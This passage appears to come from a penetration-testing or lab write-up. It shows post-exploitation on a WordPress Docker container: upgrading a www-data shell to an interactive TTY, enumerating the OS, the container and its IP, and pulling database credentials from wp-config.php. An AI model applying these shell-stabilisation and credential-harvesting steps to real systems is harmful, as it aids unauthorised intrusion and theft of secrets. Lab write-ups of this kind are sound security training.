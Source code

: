
### 🎯 Shell Upgrade Trick

```bash
www-data@bf9a078a3627:/var/www/html/wordpress/wp-admin$ script /dev/null -c bash
# Script started, output log file is '/dev/null'

^Z
stty raw -echo; fg
# Terminal reset required
reset
Terminal type? screen
www-data@bf9a078a3627:/var/www/html/wordpress/wp-admin$
```

Final shell upgraded to interactive.

---

## 🧱 Container Enumeration

### ✅ OS Information

```bash
cat /etc/os-release
# Debian GNU/Linux 12 (bookworm)
```

### ✅ Docker Environment

```bash
ls -a /
# .dockerenv file present → confirms containerized environment
```

### ✅ Container IP

```bash
cat /proc/net/fib_trie
# IP: 172.17.0.3
```

---

## 🌐 WordPress Directory Structure

```bash
ls /var/www/html/wordpress
# index.php, wp-config.php, wp-admin/, wp-content/, etc.
```

### ✅ Database Connection Info from wp-config.php

```php
DB_NAME: wordpress
DB_USER: wp_user
DB_PASSWORD: wp_password
DB_HOST: 172.17.0.1
```

---